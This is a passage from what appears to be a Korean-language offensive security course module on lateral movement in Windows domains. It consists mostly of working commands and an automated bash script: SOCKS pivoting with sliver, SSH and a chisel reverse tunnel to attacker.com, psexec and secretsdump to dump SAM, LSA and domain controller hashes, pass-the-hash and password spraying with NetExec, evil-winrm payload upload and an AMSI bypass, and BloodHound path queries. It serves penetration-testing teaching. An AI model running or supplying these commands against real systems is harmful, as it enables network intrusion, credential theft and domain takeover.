# 2) sliver portfwd 으로 attacker 측에서 internal 접근
sliver (dmz) > portfwd add --remote 22 --local 2222
ssh -p 2222 user@127.0.0.1                                 # DMZ 의 22 포트로

# 3) DMZ 에서 internal 발견 (proxy chain 사용)
sliver (dmz) > shell
$ ssh -D 1080 user@dmz-internal &
$ exit

# Attacker 측:
ssh -p 2222 -L 1080:localhost:1080 user@127.0.0.1          # DMZ 의 SOCKS proxy attacker 로
proxychains4 nmap -sT 192.168.0.0/24

# 4) Internal 침투 후 DC path 발견 (BloodHound)
bloodhound-python -d corp.local -u user -p 'Pa$$w0rd' \
    -ns 10.0.0.1 -c All --zip

# 5) Domain Admin path 따라 lateral
# Path: USER → COMPUTER1 (HasSession) → user2 (LocalAdmin) → DC

# 6) COMPUTER1 침투
proxychains4 impacket-psexec 'corp.local/user:Pa$$w0rd@COMPUTER1'

# 7) COMPUTER1 에서 SAM/LSA dump
proxychains4 impacket-secretsdump 'corp.local/user:Pa$$w0rd@COMPUTER1' -local
# 발견: user2 NTLM hash

# 8) PtH 으로 user2 권한 → DC 침투
proxychains4 nxc smb DC01 -u user2 -H 'NTHASH'
proxychains4 impacket-secretsdump -just-dc 'user2:hash@DC01'
# 모든 AD hash dump!
```

### chisel — 외부 → 내부망 통합

```bash
# === Scenario: HTTP 만 허용된 환경 ===

# 1) Attacker (외부, 내부 망 접근 불가)
chisel server -p 443 --reverse --auth user:pass

# 2) 침투한 내부 host 에서 chisel client (reverse tunnel)
./chisel client https://attacker.com:443 \
    --auth user:pass \
    R:1080:socks                                           # reverse SOCKS

# 3) Attacker 의 1080 SOCKS proxy → 침투 host 의 모든 네트워크
proxychains4 nmap -sT 10.0.0.0/24
proxychains4 impacket-psexec 'admin:Pa$$w0rd@10.0.0.5'

# === sshuttle 대안 (transparent — 앱 변경 X) ===
sudo sshuttle -r user@dmz-host 10.0.0.0/24 --dns
# 모든 10.0.0.x traffic 자동으로 dmz 통해
nmap -sT 10.0.0.5                                          # 자동 tunnel
```

### evil-winrm (PowerShell remoting)

```bash
# === 1. Password ===
evil-winrm -i 10.0.0.5 -u admin -p 'Pa$$w0rd'

# Evil-WinRM 안에서:
*Evil-WinRM* PS C:\Users\admin> whoami
*Evil-WinRM* PS C:\Users\admin> net user                   # 모든 user
*Evil-WinRM* PS C:\Users\admin> ipconfig
*Evil-WinRM* PS C:\Users\admin> upload /tmp/payload C:\temp\payload.exe
*Evil-WinRM* PS C:\Users\admin> download C:\Users\admin\sensitive.txt

# === 2. Pass-the-Hash ===
evil-winrm -i 10.0.0.5 -u admin -H 'NTHASH'

# === 3. Kerberos ticket ===
evil-winrm -i 10.0.0.5 -u admin -r corp.local

# === 4. Built-in functions ===
*Evil-WinRM* PS> menu                                       # 모든 기능
*Evil-WinRM* PS> Bypass-4MSI                               # AMSI bypass
*Evil-WinRM* PS> Invoke-Binary /opt/payload.exe            # 메모리 only
```

### BloodHound — Lateral Path 자동 탐색

```bash
# === 1. 데이터 수집 (week04 재사용) ===
bloodhound-python -d corp.local -u user -p 'Pa$$w0rd' \
    -ns 10.0.0.1 -c All --zip

# === 2. Neo4j ===
sudo systemctl start neo4j

# === 3. BloodHound GUI ===
bloodhound &

# === 4. 핵심 query ===
# Pre-built:
# - Find Shortest Path to Domain Admin
# - Find Computers where Domain Users are Local Admin
# - Find Users with HasSession to High-Value Targets
# - Find AS-REP Roastable / Kerberoastable
# - Find Computers with Unconstrained Delegation

# Custom Cypher (Web UI Raw Query):
# 모든 lateral path
MATCH p=allShortestPaths(
    (u:User {name:"USER@CORP.LOCAL"})-[*1..6]->(c:Computer)
)
RETURN p

# Domain Admin 까지의 모든 path
MATCH p=shortestPath(
    (u:User {name:"USER@CORP.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})
)
RETURN p

# 우리가 LocalAdmin 인 모든 host
MATCH (u:User {name:"USER@CORP.LOCAL"})-[:AdminTo|MemberOf*1..]->(c:Computer)
RETURN c.name
```

### 통합 lateral movement chain

```bash
#!/bin/bash
# /opt/scripts/lateral-chain.sh
# 자동 lateral movement chain

USER=$1
PASSWORD=$2
DOMAIN=corp.local
DC=10.0.0.1

# === 1. BloodHound 데이터 수집 ===
bloodhound-python -d $DOMAIN -u $USER -p "$PASSWORD" \
    -ns $DC -c All --zip

# === 2. Path 분석 (자동 — Neo4j Cypher) ===
neo4j-shell -file /tmp/find-path.cypher > /tmp/path.txt

# === 3. NetExec 으로 모든 host enum ===
nxc smb 10.0.0.0/24 -u $USER -p "$PASSWORD"

# === 4. 자격증명 spray (혹시 다른 host 에서 admin?) ===
nxc smb 10.0.0.0/24 -u $USER -p "$PASSWORD" --continue-on-success

# === 5. 발견된 LocalAdmin host 에서 SAM dump ===
ADMIN_HOSTS=$(nxc smb 10.0.0.0/24 -u $USER -p "$PASSWORD" 2>&1 | grep "Pwn3d!" | awk '{print $4}')

for host in $ADMIN_HOSTS; do
    echo "=== Dumping $host ==="
    impacket-secretsdump $DOMAIN/$USER:"$PASSWORD"@$host > /tmp/dump-$host.txt
done

# === 6. NTLM hash 추출 ===
grep -h ':::' /tmp/dump-*.txt | awk -F: '{print $1":"$4}' | sort -u > /tmp/all-hashes.txt

# === 7. 새 자격증명 으로 다시 spray ===
while IFS=: read user hash; do
    echo "=== Trying $user with hash ==="
    nxc smb 10.0.0.0/24 -u $user -H $hash
done < /tmp/all-hashes.txt

# === 8. Domain Admin hash 발견 시 → DC 침투 ===
DA_HASH=$(grep "domain admin" /tmp/dump-*.txt | awk -F: '{print $4}')
[ -n "$DA_HASH" ] && {
    impacket-secretsdump -just-dc $DOMAIN/admin:hash@$DC
    # 또는 Golden Ticket
}
```

학생은 본 8주차에서 **impacket suite + NetExec + evil-winrm + chisel + sshuttle + proxychains4 + BloodHound** 7 도구로 lateral movement 의 5 패턴 (SSH / SMB / PtH / NetExec / WinRM) + tunneling 통합 chain 을 OSS 만으로 익힌다.
